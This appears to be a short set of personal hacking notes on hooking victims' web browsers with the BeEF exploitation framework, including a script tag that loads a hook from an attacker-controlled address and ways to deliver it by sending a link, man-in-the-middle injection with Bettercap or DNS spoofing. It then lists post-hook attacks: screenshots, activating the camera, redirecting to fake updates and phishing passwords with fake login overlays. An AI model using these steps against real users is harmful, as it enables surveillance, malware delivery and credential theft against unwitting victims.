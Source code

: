 # Hooking browsers with BeEF
-   Browser exploitation framework, allows to run number of attacks on hooked browsers. Victims are hooked once they open malicious website.
-   After opening BeEF (find program: BeEf Start), cmd will show-up. On first attempt it will want to create password.
-   BeEF creates hooking script and link to it shows in the cmd. Copy the path, add your url/ip address create a webpage loading this script (`<script src="url:3000/hook.js"></script>`) and send it to the victim / put it inside the website as MITM / DNS spoof / ...
-   After victim machine will run the script, it will show inside the web UI of BeEF all the information regarding the hooked machine including connection and it will enable to run attacks on the hooked browser.
-   To stop BeEf, find program called BeEf Stop

## Hooking tagets using Bettercap (MITM)
-   JavaScript injection
-   create JavaScript file as in attachments/inject_beef.js (to use it modify 'YourIP')
-   Inject it in the same way as described in 06_MITM.MD (Basic JS code injection)

## After hooking the website
-   The BeEF shows many available commands.
-   It includes basic commands like show alert inside the hooked browser, but also more sufficient ones like screenshots, running camera, redirecting the browser to any url (install malicious update), ...
-   Also allows to steal passwords by showing fake login input on top of any page saying user was logged out and prompting user to log back in (for example Facebook).